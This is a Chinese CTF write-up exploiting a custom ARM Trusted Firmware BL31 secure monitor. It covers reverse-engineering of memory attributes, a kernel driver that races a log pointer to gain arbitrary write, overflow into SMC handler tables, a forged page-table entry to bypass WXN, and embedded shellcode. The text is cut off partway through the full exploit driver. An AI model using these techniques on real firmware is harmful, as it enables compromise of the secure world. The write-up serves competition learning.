通过`0xE0A3234`处的引用，我们往里追溯可以找到字符串`mmap_add_region_check() failed. error %d`，在源码中搜索可以将`sub_E0A33E0`对应到`mmap_add_region_ctx`，从而判断出`0xE0AD000`处的结构体类型为`xlat_ctx_t`，并根据源码判断该结构体为全局变量`tf_xlat_ctx`。

根据源码中对`tf_xlat_ctx`的引用，又可以将`sub_6618`对应到`xlat_get_mem_attributes`函数，通过源码中`xlat_get_mem_attributes_internal`可以推断出`sub_E0A663C`中一系列操作是在取页表属性值：

```c
__int64 __fastcall xlat_get_mem_attributes_ctx(xlat_ctx_t *ctx, unsigned __int64 addr, int *res)
{
  uint64_t *entry; // x0
  __int64 v5; // x8
  unsigned int *v6; // x9
  uint64_t **v7; // x10
  __int64 *v8; // x11
  uint64_t desc; // x20
  int attr_index; // w0
  unsigned int out_level; // [xsp+2Ch] [xbp+2Ch] BYREF

  entry = find_xlat_table_entry(addr, (uint64_t *)ctx->max_pa, ctx->max_va, ctx->va_max_address + 1, &out_level);
  if ( !entry )
    return 0xFFFFFFEALL;
  desc = *entry;
  if ( v8 )
    *v8 = desc & 0xFFFFFFFFF000LL;
  if ( v7 )
    *v7 = entry;
  if ( v6 )
    *v6 = out_level;
  if ( (desc & 0xC) != 0 )
    attr_index = ((desc >> 2) & 3) == 2;        // attr_index = (desc >> ATTR_INDEX_SHIFT) & ATTR_INDEX_MASK
  else
    attr_index = 2;
  *res = attr_index;
  if ( (desc & 0x80) == 0 )
    *res |= 8u;                                 // MT_RW
  if ( *(_DWORD *)(v5 + 0x68) == 1 && (desc & 0x40) != 0 )
    *res |= 0x80u;                              // MT_USER
  if ( (desc & 0x20) != 0 )
    *res |= 0x10u;                              // MT_NS
  if ( (xlat_arch_regime_get_xn_desc(*(_DWORD *)(v5 + 0x68)) & ~desc) == 0 )
    *res |= 0x40u;                              // MT_EXECUTE_NEVER
  return 0LL;
}
```

从而得到`sub_E0A2FF8`是在判断地址属性中`MT_NS(1)/MT_SECURE(0)`标志来判断地址是否安全：

```c
bool is_secure(__int64 addr)
{
  uint32_t attr; // [xsp+1Ch] [xbp+1Ch] BYREF

  attr = 0;
  xlat_get_mem_attributes(addr & 0xFFFFFFFFFFFFF000LL, &attr);
  return ((attr ^ 0x10uLL) >> 4) & 1;           // #define MT_SECURE       (U(0) << MT_PAS_SHIFT)
                                                // #define MT_NS           (U(1) << MT_PAS_SHIFT)
                                                //     if (ns_bit == 1ULL) {
                                                //         *attributes |= MT_NS;
                                                //     } else {
                                                //         *attributes |= MT_SECURE;
                                                //     }
                                                // MT_NS返回0，MT_SECURE返回1
}
```

### 获取内存映射信息

参考：[Connect-GDB-to-QEMU](https://hackmd.io/@BooleanII/linux2024-ARM_Trusted_Firmware#Connect-GDB-to-QEMU)

参考源码`include\lib\xlat_tables\xlat_tables_v2_helpers.h`，结合IDA逆向得到的`tf_xlat_ctx`得知，`tf_xlat_ctx->mmap`地址为`0xE0D7398`，长度为`0xb`：

```c
ROM:000000000E0AD000                         ; xlat_ctx_t tf_xlat_ctx
ROM:000000000E0AD000 FF FF FF FF 00 00 00 00 tf_xlat_ctx     DCQ 0xFFFFFFFF          ; DATA XREF: bl31_entrypoint:loc_E0A0070↑o
ROM:000000000E0AD000                                                                 ; bl31_entrypoint+C0↑o ...
ROM:000000000E0AD000                                                                 ; pa_max_address
ROM:000000000E0AD008 FF FF FF FF 00 00 00 00 qword_E0AD008   DCQ 0xFFFFFFFF          ; DATA XREF: enable_mmu+24↑r
ROM:000000000E0AD008                                                                 ; va_max_address
ROM:000000000E0AD010 98 73 0D 0E 00 00 00 00                 DCQ 0xE0D7398           ; mmap
ROM:000000000E0AD018 0B 00 00 00 00 00 00 00                 DCQ 0xB                 ; mmap_num
ROM:000000000E0AD020 00 80 0D 0E 00 00 00 00                 DCQ 0xE0D8000           ; tables
ROM:000000000E0AD028 06 00 00 00                             DCD 6                   ; tables_num
ROM:000000000E0AD02C 00 00 00 00                             DCD 0                   ; readonly_tables
ROM:000000000E0AD030 88 77 0D 0E 00 00 00 00                 DCQ 0xE0D7788           ; tables_mapped_regions
ROM:000000000E0AD038 00 00 00 00 00 00 00 00                 DCQ 0                   ; next_table
ROM:000000000E0AD040 80 78 0D 0E 00 00 00 00 qword_E0AD040   DCQ 0xE0D7880           ; DATA XREF: enable_mmu+28↑r
ROM:000000000E0AD040                                                                 ; base_table
ROM:000000000E0AD048 04 00 00 00 00 00 00 00                 DCQ 4                   ; base_table_entries
ROM:000000000E0AD050 00 00 00 00                             DCD 0                   ; max_pa
ROM:000000000E0AD054 00 00 00 00                             DCD 0                   ; max_va
ROM:000000000E0AD058 00 00 00 00                             DCD 0                   ; base_level
ROM:000000000E0AD05C 00 00 00 00                             DCD 0                   ; initialized
ROM:000000000E0AD060 01 00 00 00                             DCD 1                   ; xlat_regime
ROM:000000000E0AD064 00                                      DCB    0
ROM:000000000E0AD065 00                                      DCB    0
ROM:000000000E0AD066 00                                      DCB    0
ROM:000000000E0AD067 00                                      DCB    0
```

虽然有的函数符号不准，但为了用结构体定义还是可以加载一下自己编译的可执行文件的符号：

```bash
pwndbg> add-symbol-file ../../../arm-trusted-firmware-2.10.0/build/qemu/debug/bl31/bl31.elf
add symbol table from file "../../../arm-trusted-firmware-2.10.0/build/qemu/debug/bl31/bl31.elf"
Reading symbols from ../../../arm-trusted-firmware-2.10.0/build/qemu/debug/bl31/bl31.elf...

pwndbg> ptype struct mmap_region
type = struct mmap_region {
    unsigned long long base_pa;
    uintptr_t base_va;
    size_t size;
    unsigned int attr; # 标识属性
    size_t granularity;
}

pwndbg> p /x *(struct mmap_region *)0xE0D7398@0xb # tf_xlat_ctx->mmap
$1 = {{
    base_pa = 0x8000000,
    base_va = 0x8000000,
    size = 0x1000000,
    attr = 0x8,
    granularity = 0x40000000
  }, {
    base_pa = 0x9000000,
    base_va = 0x9000000,
    size = 0xc00000,
    attr = 0x8,
    granularity = 0x40000000
  }, {
    base_pa = 0xe000000,
    base_va = 0xe000000,
    size = 0x1000,
    attr = 0x8,
    granularity = 0x40000000
  }, {
    base_pa = 0xe0a0000,
    base_va = 0xe0a0000,
    size = 0xb000,
    attr = 0x2,
    granularity = 0x40000000
  }, {
    base_pa = 0xe0ab000,
    base_va = 0xe0ab000,
    size = 0x2000,
    attr = 0x42,
    granularity = 0x40000000
  }, {
    base_pa = 0xe0a0000,
    base_va = 0xe0a0000,
    size = 0x3e000,
    attr = 0xa,
    granularity = 0x40000000
  }, {
    base_pa = 0xe100000,
    base_va = 0xe100000,
    size = 0xf00000,
    attr = 0xa,
    granularity = 0x40000000
  }, {
    base_pa = 0x423dc000,
    base_va = 0x423dc000,
    size = 0x1000,
    attr = 0x1a, # 只有该段内存 attr&MT_NS(0x10) == 1
    granularity = 0x40000000
  }, {
    base_pa = 0x0,
    base_va = 0x0,
    size = 0x0,
    attr = 0x0,
    granularity = 0x0
  }, {
    base_pa = 0x0,
    base_va = 0x0,
    size = 0x0,
    attr = 0x0,
    granularity = 0x0
  }, {
    base_pa = 0x0,
    base_va = 0x0,
    size = 0x0,
    attr = 0x0,
    granularity = 0x0
  }}
```

综上可知，只有`0x423dc000 ~ 0x423dc000+0x1000`为非安全内存。

# 利用过程

参考：

* [Linux与BL31之间添加SMC实现随机数获取](https://blog.csdn.net/qq_16106195/article/details/133066328#t19)
* [第三届阿里云CTF官方Writeup](https://xz.aliyun.com/news/17029)
* [cnwangjihe师傅的wp](https://cnwangjihe.notion.site/trust_storage-1a32fe66351f80b1a884f80c22aa5137)（几经辗转联系到佬师要到wp！！！非常感谢！！！）

## 利用思路

在`reset_pLog`之后，`memcpy`前竞争，在`pLog->ptr`写入`max_size`的地址（`0xE0D70B0`），就可以将字符串写入`max_size`，从而使`STORAGE_SVC_handler`写`storage_svc_list`时能够溢出覆盖到`log_svc_list`，实现任意函数调用：

```c
bss:000000000E0D6C88 ?? ?? ?? ?? ?? ?? ?? ?? storage_svc_list storage_svc_t <?>      ; DATA XREF: LOG_SVC_init↑o
bss:000000000E0D6C88 ?? ?? ?? ?? ?? ?? ?? ??…                                        ; LOG_SVC_handler↑o ...
bss:000000000E0D6CC8 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6D08 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6D48 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6D88 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6DC8 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6E08 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6E48 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6E88 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6EC8 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6F08 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6F48 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6F88 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D6FC8 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D7008 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D7048 ?? ?? ?? ?? ?? ?? ?? ??…                storage_svc_t <?>
bss:000000000E0D7088 ?? ?? ?? ?? ?? ?? ?? ?? log_svc_list    log_svc_t <?>           ; DATA XREF: LOG_SVC_init+C↑w
bss:000000000E0D7088 ?? ?? ?? ?? ?? ?? ?? ??                                         ; LOG_SVC_handler+24↑r ...
bss:000000000E0D7098 ?? ?? ?? ?? ?? ?? ?? ??…                log_svc_t <?>
bss:000000000E0D70A8                         ; log_err_t *pLog
bss:000000000E0D70A8 ?? ?? ?? ?? ?? ?? ?? ?? pLog            % 8
bss:000000000E0D70B0                         ; unsigned __int64 max_size
bss:000000000E0D70B0 ?? ?? ?? ?? ?? ?? ?? ?? max_size        % 8
```


## 调试tips

本地调试方便传输exp，给虚拟机添加一个共享磁盘：

```bash
# qemu添加参数
    -virtfs local,path=${PWD},mount_tag=hostshare,security_model=passthrough,id=hostshare
```

虚拟机内：

```bash
mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
insmod /mnt/shared/smc_driver.ko
cat /proc/modules # 查看内核驱动地址，用于调试
cat /dev/xxx # open device
```

gdb添加驱动符号表：

```bash
pwndbg> add-symbol-file ./smc_driver.ko 0xffff80007a870000
add symbol table from file "./smc_driver.ko" at
	.text_addr = 0xffff80007a870000
Reading symbols from ./smc_driver.ko...
```


## Step0: smc指令调用方法

用户态程序在EL0，内核驱动运行在EL1，由于调用 SMC 指令时需要确保当前 CPU 正在执行在 EL1，故需要在内核层用驱动来完成。可以用`arm_smccc_smc`接口：

```c
// 头文件
#include "linux-6.6/include/linux/arm-smccc.h"

// 调用举例
struct arm_smccc_res res = { 0, };
usigned long x1, x2, x3, x4, x5, x6, x7;

arm_smccc_smc(smc_fid, x1, x2, x3, x4, x5, x6, x7, &res);
pr_info("SMC Driver: LOG_SVC_PLOG_SET, res.0 = %lx\n", res.a0);
```

或者内联汇编：

```c
// 内联汇编举例
__asm__ __volatile__(
  "ldr x0, smc_fid\n"
  "mov x1, #0\n"
  "mov x2, #0\n"
  "mov x3, #0\n"
  ...
  "smc #0\n"
  "b smc_thread_cont\n"

  "smc_fid:\n"
  ".quad 0xC9000031\n"

  "smc_thread_cont:\n"
);
```

`smc_fid`的计算方法参考[ATF源码](arm-trusted-firmware\include\lib\smccc.h)和[SMC Calling Convention](http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf)文档。

`STORAGE_SVC`的2个`smc_fid`可以通过逆向直接获得。

`LOG_SVC`的2个`smc_fid`则需要通过计算得到，根据`rt_svc_descs`中的信息得知，`LOG_SVC`的`start_oen = end_oen = 7; call_type = 0`：

```c
ROM:000000000E0AC120 09 09 01 00 00 00 00 00 rt_svc_descs    rt_svc_desc_t <9, 9, 1, aStorageSvc, STORAGE_SVC_init,  STORAGE_SVC_handler> ; "STORAGE_SVC"
ROM:000000000E0AC140 07 07 00 00 00 00 00 00…                rt_svc_desc_t <7, 7, 0, aLogSvc, LOG_SVC_init, LOG_SVC_handler> ; "LOG_SVC"
```

计算方法如下：

```c
// call type
#define SMC_TYPE_FAST    1
#define SMC_TYPE_YIELD   0
// calling convention
#define SMC_64   1
#define SMC_32   0
// oen
#define OEN_LOG_SVC       7
#define OEN_STORAGE_SVC   9
// shift and mask
#define FUNCID_TYPE_SHIFT   31
#define FUNCID_CC_SHIFT     30
#define FUNCID_OEN_SHIFT    24
#define FUNCID_NUM_SHIFT    0

/* SMC FID */
#define SMC_FID(type, cc, oen, num) ((type<<FUNCID_TYPE_SHIFT) | (cc<<FUNCID_CC_SHIFT) | \
                                     (oen<<FUNCID_OEN_SHIFT) | (num<<FUNCID_NUM_SHIFT))
// 0xE0AC120: rt_svc_desc_t <9, 9, 1, aStorageSvc, STORAGE_SVC_init,  STORAGE_SVC_handler> ; "STORAGE_SVC"
#define STORAGE_SVC_WR   0xC9000031
#define STORAGE_SVC_RD   0xC9000032
// 0xE0AC140: rt_svc_desc_t <7, 7, 0, aLogSvc, LOG_SVC_init, LOG_SVC_handler> ; "LOG_SVC"
#define LOG_SMC_FID(num)   SMC_FID(SMC_TYPE_YIELD, SMC_64, OEN_LOG_SVC, num)
#define LOG_SVC_PLOG_SET   LOG_SMC_FID(2)
#define LOG_SVC_PLOG_RD    LOG_SMC_FID(3)
```


## Step1: 竞争写pLog，实现任意地址写

参考：[Kernel threads made easy](https://lwn.net/Articles/65178/)

开启两个kthread并绑定到不同的核上运行：

```c
#include "linux-6.6/include/linux/arm-smccc.h" //arm_smccc_smc
#include "linux-6.6/include/linux/kthread.h" // kthread

#define BL31_NS_MEM       0x423dc0007
#define BL31_NS_MEM_SIZE  0x1000
#define MAX_SIZE_ADDR     0xE0D70B0

static uint64_t *ns_mem = NULL;

static int func1_thread(void *data) {
    struct arm_smccc_res res;
    struct task_struct *task2 = (struct task_struct *)data;

    pr_info("func1 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        for (size_t i = 0; i < 0x20; i++)
            arm_smccc_smc(STORAGE_SVC_WR, 0, BL31_NS_MEM+0x80, 0x80, 0, 0, 0, 0, &res); // 使size大于0x40，不断触发log_err执行
        if (res.a0 == 0) { // 调用执行成功返回0时表示竞争成功，max_size已被篡改
            pr_info("Condition successed!\n");
            kthread_stop(task2);
            break;
        }
    }
    return 0;
}

static int func2_thread(void *data) {
    pr_info("func2 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        ns_mem[0] = MAX_SIZE_ADDR; // 不断修改pLog->ptr指向max_size
    }
    return 0;
}

static int step1_open(struct inode *inode, struct file *file) {
    pr_info("Step1: Device opened\n");

    struct arm_smccc_res res;
    struct task_struct *task1, *task2;

    ns_mem = phys_to_virt(BL31_NS_MEM);

    arm_smccc_smc(LOG_SVC_PLOG_SET, BL31_NS_MEM, 0, 0, 0, 0, 0, 0, &res);
    pr_info("SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x%lx\n", res.a0);

    task2 = kthread_create(func2_thread, NULL, "func2_thread");
    kthread_bind(task2, 2);
    wake_up_process(task2);

    task1 = kthread_create(func1_thread, (void *)task2, "func1_thread");
    kthread_bind(task1, 1);
    wake_up_process(task1);

    return 0;
}
```

虚拟机：

```bash
# mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
# insmod /mnt/shared/smc_driver.ko
# cat /dev/step1_driver
cat: read error: Invalid argument
# dmesg
...
[   16.796970] smc_driver: loading out-of-tree module taints kernel.
[   16.802926] SMC Driver: Initializing the driver
[   16.804485] SMC Driver: Device created successfully
[   25.819992] Step1: Device opened
[   25.830324] SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x423dc008
[   25.850199] func2 is running on CPU 2
[   25.853743] func1 is running on CPU 1
[   25.856088] Condition successed!
[   25.875623] Step1: Device closed
```

调试：

```bash
pwndbg> target remote :1234
pwndbg> b *0xE0A5D8C
pwndbg> c
Continuing.
[Switching to Thread 1.2]

Thread 2 hit Breakpoint 1, 0x000000000e0a5d8c in ?? ()
...
pwndbg> x /32xg 0xE0D70B0
0xe0d70b0:	0x6f6f7420657a6973	0x0000000a67696220 # 此时max_size已被修改
0xe0d70c0:	0x0000000000000000	0x0000000000000004
```


## Step2: 修改页表，执行shellcode

参考[Double Mapping the Secure Monitor](https://blog.impalabs.com/2212_advisory_huawei-secure-monitor.html#double-mapping-the-secure-monitor)和ATF源码了解到存在**WXN机制**，**始终将读写的普通内存映射为从不执行**，只有只读内存依靠`MT_EXECUTE/MT_EXECUTE_NEVER`属性来确定XN位的值。也就是说只要`MT_RW`被置位则不论`MT_EXECUTE_NEVER`有没有被置位都不可执行。相关源码如下：

```c
// lib\xlat_tables\xlat_tables_common.c
static uint64_t mmap_desc(unsigned int attr, unsigned long long addr_pa,
			  unsigned int level)
{
    ...
  mem_type = MT_TYPE(attr);
	if (mem_type == MT_DEVICE) {
    ...
  else {
    ...
    /*
		 * Always map read-write normal memory as execute-never.
		 * This library assumes that it is used by software that does
		 * not self-modify its code, therefore R/W memory is reserved
		 * for data storage, which must not be executable.
		 *
		 * Note that setting the XN bit here is for consistency only.
		 * The function that enables the MMU sets the SCTLR_ELx.WXN bit,
		 * which makes any writable memory region to be treated as
		 * execute-never, regardless of the value of the XN bit in the
		 * translation table.
		 *
		 * For read-only memory, rely on the MT_EXECUTE/MT_EXECUTE_NEVER
		 * attribute to figure out the value of the XN bit.
		 */
		if (((attr & MT_RW) != 0U) || ((attr & MT_EXECUTE_NEVER) != 0U)) { // MT_RW被置位则不可执行
			desc |= execute_never_mask;
		}
    ...
  }
	debug_print((mem_type == MT_MEMORY) ? "MEM" :
		((mem_type == MT_NON_CACHEABLE) ? "NC" : "DEV"));
	debug_print(((attr & MT_RW) != 0U) ? "-RW" : "-RO");
	debug_print(((attr & MT_NS) != 0U) ? "-NS" : "-S");
	debug_print(((attr & MT_EXECUTE_NEVER) != 0U) ? "-XN" : "-EXEC");
	return desc;
}
  
void init_xlation_table(uintptr_t base_va, uint64_t *table,
			unsigned int level, uintptr_t *max_va,
			unsigned long long *max_pa)
{
	unsigned int el = xlat_arch_current_el();

	execute_never_mask = xlat_arch_get_xn_desc(el);
  ...
}
  
// lib\xlat_tables\aarch64\xlat_tables.c
uint64_t xlat_arch_get_xn_desc(unsigned int el)
{
	if (el == 3U) {
		return UPPER_ATTRS(XN);
	} else {
		assert(el == 1U);
		return UPPER_ATTRS(PXN);
	}
}
  
// include\lib\xlat_tables\xlat_tables_defs.h
/* XN: Translation regimes that support one VA range (EL2 and EL3). */
#define XN			(ULL(1) << 2)
/* UXN, PXN: Translation regimes that support two VA ranges (EL1&0). */
#define UXN			(ULL(1) << 2)
#define PXN			(ULL(1) << 1)
#define UPPER_ATTRS(x)		(((x) & ULL(0x7)) << 52)
```

解决方法也是参考[Double Mapping the Secure Monitor](https://blog.impalabs.com/2212_advisory_huawei-secure-monitor.html#double-mapping-the-secure-monitor)，伪造页表项，将代码段重复映射成`RWN`权限，用该映射写入shellcode，用原来的映射执行shellcode：

> To bypass the WXN mechanism, we decided to target the page table and map the secure monitor a second time, as read-write. This way, we are able to change the secure monitor's code from the writable mapping and have the changes mirrored in the executable one.

页表项寻址相关源码如下：

```c
// include\lib\xlat_tables\xlat_tables_defs.h
/*
 * Extract from the given virtual address the index into the given lookup level.
 * This macro assumes the system is using the 4KB translation granule.
 */
#define XLAT_TABLE_IDX(virtual_addr, level)	\
	(((virtual_addr) >> XLAT_ADDR_SHIFT(level)) & ULL(0x1FF))

// lib\xlat_tables_v2\xlat_tables_utils.c
/*
 * Do a translation table walk to find the block or page descriptor that maps
 * virtual_addr.
 *
 * On success, return the address of the descriptor within the translation
 * table. Its lookup level is stored in '*out_level'.
 * On error, return NULL.
 *
 * xlat_table_base
 *   Base address for the initial lookup level.
 * xlat_table_base_entries
 *   Number of entries in the translation table for the initial lookup level.
 * virt_addr_space_size
 *   Size in bytes of the virtual address space.
 */
static uint64_t *find_xlat_table_entry(uintptr_t virtual_addr,
				       void *xlat_table_base,
				       unsigned int xlat_table_base_entries,
				       unsigned long long virt_addr_space_size,
				       unsigned int *out_level)
{
	unsigned int start_level;
	uint64_t *table;
	unsigned int entries;

	start_level = GET_XLAT_TABLE_LEVEL_BASE(virt_addr_space_size);

	table = xlat_table_base;
	entries = xlat_table_base_entries;

	for (unsigned int level = start_level;
	     level <= XLAT_TABLE_LEVEL_MAX;
	     ++level) {
		uint64_t idx, desc, desc_type;

		idx = XLAT_TABLE_IDX(virtual_addr, level);
		if (idx >= entries) {
			WARN("Missing xlat table entry at address 0x%lx\n",
			     virtual_addr);
			return NULL;
		}

		desc = table[idx];
		desc_type = desc & DESC_MASK;

		if (desc_type == INVALID_DESC) {
			VERBOSE("Invalid entry (memory not mapped)\n");
			return NULL;
		}

		if (level == XLAT_TABLE_LEVEL_MAX) {
			/*
			 * Only page descriptors allowed at the final lookup
			 * level.
			 */
			assert(desc_type == PAGE_DESC);
			*out_level = level;
			return &table[idx];
		}

		if (desc_type == BLOCK_DESC) {
			*out_level = level;
			return &table[idx];
		}

		assert(desc_type == TABLE_DESC);
		table = (uint64_t *)(uintptr_t)(desc & TABLE_ADDR_MASK);
		entries = XLAT_TABLE_ENTRIES;
	}

	/*
	 * This shouldn't be reached, the translation table walk should end at
	 * most at level XLAT_TABLE_LEVEL_MAX and return from inside the loop.
	 */
	assert(false);

	return NULL;
}
```

页表项含义如下：

* 0~1 bit：标识desk类型，三级页表为`PAGE_DESC(3)`
* 52~54 bit：标识可执行权限，不可执行为`XN(4)`

```c
#define INVALID_DESC		U(0x0)
/*
 * A block descriptor points to a region of memory bigger than the granule size
 * (e.g. a 2MB region when the granule size is 4KB).
 */
#define BLOCK_DESC		U(0x1) /* Table levels 0-2 */
/* A table descriptor points to the next level of translation table. */
#define TABLE_DESC		U(0x3) /* Table levels 0-2 */
/*
 * A page descriptor points to a page, i.e. a memory region whose size is the
 * translation granule size (e.g. 4KB).
 */
#define PAGE_DESC		U(0x3) /* Table level 3 */

#define DESC_MASK		U(0x3)

#define FIRST_LEVEL_DESC_N	ONE_GB_SHIFT
#define SECOND_LEVEL_DESC_N	TWO_MB_SHIFT
#define THIRD_LEVEL_DESC_N	FOUR_KB_SHIFT

/* XN: Translation regimes that support one VA range (EL2 and EL3). */
#define XN			(ULL(1) << 2)
/* UXN, PXN: Translation regimes that support two VA ranges (EL1&0). */
#define UXN			(ULL(1) << 2)
#define PXN			(ULL(1) << 1)
#define CONT_HINT		(ULL(1) << 0)
#define UPPER_ATTRS(x)		(((x) & ULL(0x7)) << 52)

#define NON_GLOBAL		(U(1) << 9)
#define ACCESS_FLAG		(U(1) << 8)
#define NSH			(U(0x0) << 6)
#define OSH			(U(0x2) << 6)
#define ISH			(U(0x3) << 6)
```

为了避免复杂的计算找到页表位置，我们可以调用`STORAGE_SVC_RD`在`0xE0A6678`（`find_xlat_table_entry`返回处）下断点查看，返回值`x0`即页表项所在地址。这里调用`    arm_smccc_smc(STORAGE_SVC_RD, 0xf, 0xE0DB000, 0x60, 0, 0, 0, 0, &res);`得到`0xE0DB000`的页表项地址为`0xe0d96d8`，最大映射到`0xe0dd000`这一页，向上回溯可以看到`0xe0a0000 ~ 0xe0aafff`为可执行页：

```bash
pwndbg> x /32gx 0xe0d96d8
0xe0d96d8:	0x004000000e0db743	0x004000000e0dc743
0xe0d96e8:	0x004000000e0dd743	0x0000000000000000
0xe0d96f8:	0x0000000000000000	0x0000000000000000
0xe0d9708:	0x0000000000000000	0x0000000000000000
...
pwndbg> x /32gx 0xe0d96f0-0x200
0xe0d94f0:	0x0000000000000000	0x0000000000000000
0xe0d9500:	0x000000000e0a07c3	0x000000000e0a17c3
0xe0d9510:	0x000000000e0a27c3	0x000000000e0a37c3
0xe0d9520:	0x000000000e0a47c3	0x000000000e0a57c3
0xe0d9530:	0x000000000e0a67c3	0x000000000e0a77c3
0xe0d9540:	0x000000000e0a87c3	0x000000000e0a97c3
0xe0d9550:	0x000000000e0aa7c3	0x004000000e0ab7c3
0xe0d9560:	0x004000000e0ac7c3	0x004000000e0ad743
...
```

有两个选项，一是将可执行页重复映射为可写，二是将可写页重复映射为可执行。这里选择将`0xe0db000`重复映射到`0xe0de000`并添加可执行权限，表项写入`0xe0d96f0`处，之后将官方README给的shellcode改吧改吧，编译后写入`0xe0db000`，再跳转到`0xe0de000`执行即可：

```c
#define LOG_SVC_ABWR       LOG_SMC_FID(2)
#define LOG_SVC_SC         LOG_SMC_FID(3)

#define BL31_NS_MEM       0x423dc000
#define MAX_SIZE_ADDR     0xE0D70B0
#define MEMCPY_ADDR       0xE0A3160

#define FAKE_DESC_ADDR    0xe0d96f0
#define FAKE_DESC         0xe0db7c3
#define SC_RW_ADDR        0xe0db000
#define SC_EXEC_ADDR      0xe0de000

static int step2_open(struct inode *inode, struct file *file) {
    pr_info("Step2: Device opened\n");

    struct arm_smccc_res res;

    if (!ns_mem)
        ns_mem = phys_to_virt(BL31_NS_MEM);
    memset(ns_mem, 0, 0x40);
    ns_mem[8] = 2;
    ns_mem[9] = MEMCPY_ADDR;
    ns_mem[10] = 3;
    ns_mem[11] = SC_EXEC_ADDR; // 伪造的可执行页地址
    arm_smccc_smc(STORAGE_SVC_WR, 0xf, BL31_NS_MEM, 0x60, 0, 0, 0, 0, &res); // 将memcpy和shellcode地址分别写入LOG_SVC的两个handler，调用号任意

    //arm_smccc_smc(STORAGE_SVC_RD, 0xf, SC_RW_ADDR, 0x60, 0, 0, 0, 0, &res); // 动态调试找页表项位置
    ns_mem[0] = FAKE_DESC;
    arm_smccc_smc(LOG_SVC_ABWR, FAKE_DESC_ADDR, BL31_NS_MEM, 0x8, 0, 0, 0, 0, &res); // 写入伪造的页表项

    // 单独写一个c文件，用内联汇编生成二进制文件后用IDA提取出来
    unsigned char shellcode[] = {
        0xA0, 0x47, 0xA8, 0xF2, 0x00, 0x20, 0x98, 0xF2, 0x01, 0xFC,
        0x3B, 0xD5, 0x01, 0x00, 0x00, 0xB9, 0x21, 0xFC, 0x3B, 0xD5,
        0x01, 0x04, 0x00, 0xB9, 0x41, 0xFC, 0x3B, 0xD5, 0x01, 0x08,
        0x00, 0xB9, 0x61, 0xFC, 0x3B, 0xD5, 0x01, 0x0C, 0x00, 0xB9,
        0x81, 0xFC, 0x3B, 0xD5, 0x01, 0x10, 0x00, 0xB9, 0xA1, 0xFC,
        0x3B, 0xD5, 0x01, 0x14, 0x00, 0xB9, 0xC1, 0xFC, 0x3B, 0xD5,
        0x01, 0x18, 0x00, 0xB9, 0xE1, 0xFC, 0x3B, 0xD5, 0x01, 0x1C,
        0x00, 0xB9, 0xC0, 0x03, 0x5F, 0xD6
    };
    /*
        "MOVK X0, #0x423d, LSL #16\n" // 把flag存到0x423dc000+0x100
        "MOVK X0, #0xc100\n"
        "STR W1, [X0]\n"
        "MRS X1, S3_3_C15_C12_1\n"
        "STR W1, [X0,#4]\n"
        "MRS X1, S3_3_C15_C12_2\n"
        "STR W1, [X0,#8]\n"
        "MRS X1, S3_3_C15_C12_3\n"
        "STR W1, [X0,#0xC]\n"
        "MRS X1, S3_3_C15_C12_4\n"
        "STR W1, [X0,#0x10]\n"
        "MRS X1, S3_3_C15_C12_5\n"
        "STR W1, [X0,#0x14]\n"
        "MRS X1, S3_3_C15_C12_6\n"
        "STR W1, [X0,#0x18]\n"
        "MRS X1, S3_3_C15_C12_7\n"
        "STR W1, [X0,#0x1C]\n"
        "ret\n"
    */
    memcpy((uint8_t *)ns_mem, shellcode, sizeof(shellcode));
    arm_smccc_smc(LOG_SVC_ABWR, SC_RW_ADDR, BL31_NS_MEM, sizeof(shellcode), 0, 0, 0, 0, &res); // 写入shellcode
    arm_smccc_smc(LOG_SVC_SC, 0, 0, 0, 0, 0, 0, 0, &res); // 跳转到shellcode执行
    pr_info("flag: %s\n", ((uint8_t *)ns_mem)+0x100); // 从0x423dc000+0x100读flag

    return 0;
}
```


# 完整Exp

## Driver

smc_driver.c

> 注：引用下载的内核源码路径的头文件

```c
#include "linux-6.6/include/linux/kernel.h"
#include "linux-6.6/include/linux/module.h"
#include "linux-6.6/include/linux/init.h"
#include "linux-6.6/include/linux/device.h"
#include "linux-6.6/include/linux/arm-smccc.h" //arm_smccc_smc
#include "linux-6.6/include/linux/kthread.h" // kthread
#include "linux-6.6/include/linux/string.h" // memset

#define DEVICE_NAME1 "step1_driver"
#define DEVICE_NAME2 "step2_driver"

static int step1_major_number = 0;
static int step2_major_number = 0;
static struct class* step1_class = NULL;
static struct class* step2_class = NULL;
static struct device* step1_device = NULL;
static struct device* step2_device = NULL;

// call type
#define SMC_TYPE_FAST    1
#define SMC_TYPE_YIELD   0
// calling convention
#define SMC_64   1
#define SMC_32   0
// oen
#define OEN_LOG_SVC       7
#define OEN_STORAGE_SVC   9

// shift and mask
#define FUNCID_TYPE_SHIFT   31
#define FUNCID_CC_SHIFT     30
#define FUNCID_OEN_SHIFT    24
#define FUNCID_NUM_SHIFT    0

/* SMC FID */
#define SMC_FID(type, cc, oen, num) ((type<<FUNCID_TYPE_SHIFT) | (cc<<FUNCID_CC_SHIFT) | \
